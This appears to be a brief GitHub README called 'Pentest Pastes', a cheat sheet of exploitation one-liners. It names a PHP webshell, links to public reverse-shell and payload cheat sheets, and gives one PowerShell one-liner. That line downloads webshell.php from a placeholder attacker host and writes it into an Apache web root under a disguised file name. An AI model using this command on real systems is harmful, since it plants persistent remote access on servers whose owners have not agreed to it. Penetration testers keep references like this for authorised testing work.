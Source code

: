 # Pentest Pastes
One stop shop for all quick lookups for exploitations (one liners, diff techs, rev shells, etc)

# Webshells
WhiteWolf php webshell

# Powershell
- fetch file `powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"`

# Resources
- http://threatexpress.com/blogs/2019/penetration-testing-pasties/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources
- https://pentestmonkey.net/cheat-sheet
